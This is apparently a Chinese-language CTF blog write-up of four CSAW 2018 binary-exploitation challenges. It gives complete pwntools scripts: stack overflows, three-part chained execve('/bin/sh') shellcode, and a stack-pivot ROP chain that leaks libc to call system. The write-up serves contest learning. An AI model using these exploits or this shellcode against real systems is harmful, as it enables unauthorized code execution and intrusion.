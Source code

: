 ```yaml
---
layout: post
title: "csaw2018_pwn_wp"
date: 2018-09-18
categories: jekyll update
---
```

### csaw2018_pwn_wp

### pwn

### get_it
非常简单的直接栈溢出控制返回地址到system函数直接getshell
```
from pwn import *
context.log_level = "debug"

local = 0

if local:
	p = process("./get_it")
	elf = process("./get_it")
else:
	p = remote("pwn.chal.csaw.io",9001)
	elf = process("./get_it")

p.recvuntil("??\r\n")
payload = "a"*(0x20+8)
payload += p64(0x4005B6)
p.sendline(payload)

p.interactive()
```
### bigboy
直接往下覆盖变量改变变量的值直接绕过判断，溢出缓冲区。
```
from pwn import *

context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
local = 0


if local:
	p = process("./boi")#,env={'LD_PRELOAD':'./libc_x64.so.6'})
	elf = ELF("./boi")
	#libc = ELF('./libc_x64.so.6')
else:
	#p = remote('192.168.210.11',11006)
	p = remote('pwn.chal.csaw.io',9000)
	elf = ELF("./boi")
	#libc = ELF('./libc_x64.so.6')

#pause()
p.send("A"*16+p32(0xCAF3BAEE)+p32(0xCAF3BAEE))

p.interactive()
```

### shell->code
这道题是一个分三段写shellcode，第一段是第一个十五字节，第二段是第二个十五字节，第三段是醉胡的写完返回地址还剩下13字节应该是。
然后他们三段在栈上的排列是这样的：
`[__`第三段`___]`
`[__`第二段`___]`
`[__`第一段`___]`
现在蛀牙想办法把他们三个串起来的题目一起执行shellcode，主要是首先第一用add来改变某个寄存器的值，然后jmp到这个寄存器的地址上来串起三个部分；然后第二还有难点就是处理回车和'\x00'的问题，回车主要是把全都写满，回车符写到下一行就不影响了，也就是把第三段连着写多一点把第二段的也写满就没有回车了，就是不用sendline；然后就是精心构造一下的问题了。

详细脚本如下：
```
from pwn import *
#context.log_level = "debug"
context(os = 'linux')
local = 1

if local:
	p = process("./shellpointcode")
	elf = ELF("./shellpointcode")
else:
	p = remote("pwn.chal.csaw.io",9005)
	elf = ELF("./shellpointcode")

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"


shellcode1 = "\x90"*5+"\x31\xf6" + "\x48\x83\xc4\x28\xff\xe4"
'''22222222222222222222
   0:   31 f6                   xor    esi,esi
   0:   48 83 c4 28             add    rsp,0x28
   4:   ff e4                   jmp    rsp
'''
shellcode2 = "\x56\x53\x54\x5f" + "\xb0\x3b\x31\xd2\x0f\x05\x00"
'''3333333333333333333
   0:   56                      push   rsi
   1:   53                      push   rbx
   2:   54                      push   rsp
   3:   5f                      pop    rdi
   0:   b0 3b                   mov    al,0x3b
   2:   31 d2                   xor    edx,edx
   4:   0f 05                   syscall 
'''
shellcode3 = "\x90\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68" + "\x04"  #add    al,0x0 == '\x04\x00'
'''  11111111111111111111111111
   0:   90                      nop
   1:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
   8:   2f 73 68
'''

print len(shellcode1)
print len(shellcode2)
print len(shellcode3)

p.recvuntil("node 1:  ")
payload = shellcode2
p.sendline(payload)
p.recvuntil("node 2: ")
payload = shellcode1
pause()
p.sendline(payload)
p.recvuntil("node.next: ")
data = int(p.recvuntil("\n",drop = True),16)
print hex(data)
print hex(data+0x8)
p.recv()

pattern = "a"*0x3 + "b"*0x8
payload = pattern + p64(data)+ shellcode3
#print len(payload)
pause()
p.send(payload)

p.interactive()
```

### turtles

这道题是object-C代码写的题目，但是其实不用完全理解object-C是可以做的，问题就在于那个“call rax”上面，然后我们就是想尽办法控制rax就可以任意地址执行就简单了，如果可以任意地址执行，那就可以控制rbp，然后leave来进行一次栈迁移到堆上来进行rop就可以了，为啥要迁移到堆上呢，因为我们呢可以控制堆上的东西啊，堆上面的地址他是给我们的，燃煤memcpy一堆东西过去堆上这样就好办了嘛。
要想控到rax，就要注意的就是调清楚objc_msg_lookup这个函数，控rax就一切好办了。最坑的就是伪造那个全局变量的值让他通过比较是最坑的，似乎随便一个值都可以。

详细脚本如下：
```
from pwn import *
#context.log_level = "debug"
context(os = "linux",arch = "amd64")

local = 0

if local:
	p = process("./turtles")
	elf = ELF("./turtles")
else:
	p = remote("pwn.chal.csaw.io",9003)
	elf = ELF("./turtles")

read_plt = elf.plt["read"]
printf_plt = elf.plt["printf"]
#print hex(elf.plt["printf"])
memcpy_got = elf.got["memcpy"]
printf_got = elf.got["printf"]
read_got = elf.got["read"]

p.recvuntil(": ")
data = int(p.recvuntil("\n",drop = True),16)
print hex(data)

main = 0x400B84#0x400A60
pop_rdi = 0x0000000000400d43
pppp_ret = 0x0000000000400d3c
addr = 0x400D36
leave = 0x0000000000400b82
pop_rbp_pp_ret = 0x0000000000400d3f
my_addr = addr

payload = p64(data)+p64(data+0x10)
payload += p64(my_addr)+p64(main)
payload += p64(my_addr)
payload += p64(0xaaa)
payload += p64(0) 
payload += p64(data + 0x68) + p64(data) +  p64(0)*2 
payload += p64(0) + p64(leave)
payload += p64(data) + p64(pop_rdi) + p64(printf_got) + p64(printf_plt)
payload += p64(pop_rbp_pp_ret) + p64(data) + p64(0)*2 + p64(main)
#payload += p64(0x0400C43)

#print hex(len(payload))
#gdb.attach(p)
pause()
p.sendline(payload)
libc_data = u64(p.recvn(6).ljust(8,"\x00"))
print hex(libc_data)
libc_base = libc_data - 0x50cf0#0x14dea0
system = libc_base + 0x41490#0x45390
binsh_addr = libc_base + 0x1633e8#0x18cd57
print "libc_base = " + hex(libc_base)
print "system = " + hex(system)
print "binsh_addr = " + hex(binsh_addr)
p.recvuntil(": ")
data = int(p.recvuntil("\n",drop = True),16)
payload = p64(data)+p64(data+0x10)
payload += p64(my_addr)+p64(main)
payload += p64(my_addr)
payload += p64(0xaaa)
payload += p64(0) 
payload += p64(data + 0x68) + p64(data) +  p64(0)*2 
payload += p64(0) + p64(leave)
payload += p64(data) + p64(pop_rdi) + p64(binsh_addr) + p64(system)

p.sendline(payload)

p.interactive()
```

关于这个比赛我们战队的其他wp：
+ https://delcoding.github.io/2018/09/csaw-writeup/
+ https://lzy-wi.github.io/2018/09/17/CSAW/